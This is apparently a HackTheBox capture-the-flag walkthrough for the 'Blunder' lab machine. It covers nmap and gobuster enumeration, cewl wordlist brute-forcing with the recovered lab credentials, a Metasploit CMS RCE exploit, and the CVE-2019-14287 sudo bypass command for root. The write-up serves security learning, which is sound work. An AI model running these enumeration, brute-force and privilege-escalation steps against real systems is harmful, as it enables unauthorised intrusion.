 # [Blunder](https://app.hackthebox.com/machines/blunder)


```bash
nmap -p- --min-rate 10000 10.10.10.191
```

![Alt text](img/image.png)

```bash
nmap -sC -sV -A -p21,80 10.10.10.191 -Pn 
```

![Alt text](img/image-1.png)


Let's do directory brute-forcing.

```bash
gobuster dir -u http://10.10.10.191/ -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -t 50 -x php,txt,js
```

![Alt text](img/image-5.png)

We find 'todo.txt' file that reveals some secrets of application. Also 'fergus' is possible username for services.

![Alt text](img/image-2.png)

We find also '/admin' endpoint, let's search used CMS that we can find publicly known exploit or not.

We can see that there is 5.0.8 version is used for 'TinyMCE' application.

![Alt text](img/image-3.png)

We take below exploit to hack web application (CMS).

![Alt text](img/image-4.png)


Let's make a **wordlist** by using '*cewl*' command.

```bash
cewl http://10.10.10.191 > wordlist
```

![Alt text](img/image-6.png)

After we finding credentials.

fergus: RolandDeschain


Let's use another exploit that we got RCE via this vulnerability of CMS. (we do this via metasploit)

![Alt text](img/image-7.png)



Once, we enumerating machine, we find below credentials on this directory. (/var/www/bludit-3.10.0a/bl-content/databases
)

![Alt text](img/image-8.png)


I cracked the hash of Hugo user.

![Alt text](img/image-9.png)


hugo: Password120

Let's switch into 'hugo' user.

user.txt

![Alt text](img/image-10.png)


We enumerate machine that we find version of 'sudo' command.

![Alt text](img/image-11.png)


We search LPE exploit for this version of 'sudo' command and finds 'CVE-2019-14287' that let's use this.

```bash
sudo -u#-1 /bin/bash
```


root.txt

![Alt text](img/image-12.png)
